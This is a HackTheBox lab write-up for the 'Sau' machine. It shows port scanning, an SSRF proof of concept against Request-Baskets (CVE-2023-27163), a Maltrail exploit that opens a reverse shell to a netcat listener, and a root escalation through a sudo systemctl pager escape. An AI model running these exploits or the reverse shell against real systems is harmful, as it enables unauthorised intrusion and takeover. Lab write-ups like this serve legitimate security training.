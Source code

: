 ```yaml
---
layout: page
title: "Sau-Linux-Medium"
date:   2025-07-10 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/1ea2980b9dc2d11cf6a3f82f10ba8702.webp
---
```


# Sau

HackTheBox: Medium
<br/><br/>
<aside>
💡 Sau is a medium linux machine which exploit vulnerabilities due to older versions

</aside>
<br/><br/>
## 1: Enumeration
<br/><br/>
- Scanning ports
<br/><br/>
```bash
$ sudo nmap -n -Pn -p- 10.129.229.26
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-24 21:32 PDT
Nmap scan report for 10.129.229.26
Host is up (0.27s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 1388.12 seconds
```
<br/><br/>
We have a web service at 55555 it allows inspect and depure http requests 
<br/><br/>
It is vulnerable to (CVE-2023-27163) 
<br/><br/>
```bash
$ ./CVE-2023-27163.sh http://10.129.229.26:55555 http://127.0.0.1:80
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "sbqmby" proxy basket...
> Basket created!
> Accessing http://10.10.11.234:55555/xsikpk now makes the server request to http://127.0.0.1:80.
> Authorization: FfWcOUyPi4nGFDSfzSDz_9NrvirREpBzXqJQoiy0-2DqK5NM
```
<br/><br/>
That POC make a reques to 80 port and we can get to it
<br/><br/>
## 2: User flag
<br/><br/>
![Untitled]({{ '/assets/images/6fd0d9dd-d49e-4e79-91de-37466e0d34f5-export-216ae02a-fe78-48b7-9c84-c96a4313992c/6fd0d9dd-d49e-4e79-91de-37466e0d34f5-export-216ae02a-fe78-48b7-9c84-c96a4313992c_Untitled.png' | relative_url }})
<br/><br/>
We find a Maltrail service running with an unprotected version
<br/><br/>
We find another POC 
<br/><br/>
```bash
$ python3 exploit.py 10.10.14.246 4444 http://10.10.11.234:55555/sbqmby
Running exploit on http://10.10.11.234:55555/sbqmby
```

```bash
$ nc -nlvp 4444
listening on [any] 4444...
connect to [10.10.14.246] from (UNKNOWN) [10..10.11.234] 38442
$ whoami
whoami
puma
```
<br/><br/>
## 3: Priv esc
<br/><br/>
Check for privileges
<br/><br/>
```bash
$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
<br/><br/>
It appears that we are able to examine the trail.service's status.
<br/><br/>
```bash
sudo /usr/bin/systemctl status

while it load

!/bin/sh -- !sh

We are root

```
<br/><br/>
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>


<link rel="stylesheet" href="{{ '/assets/css/imagesstyle.css' | relative_url }}">
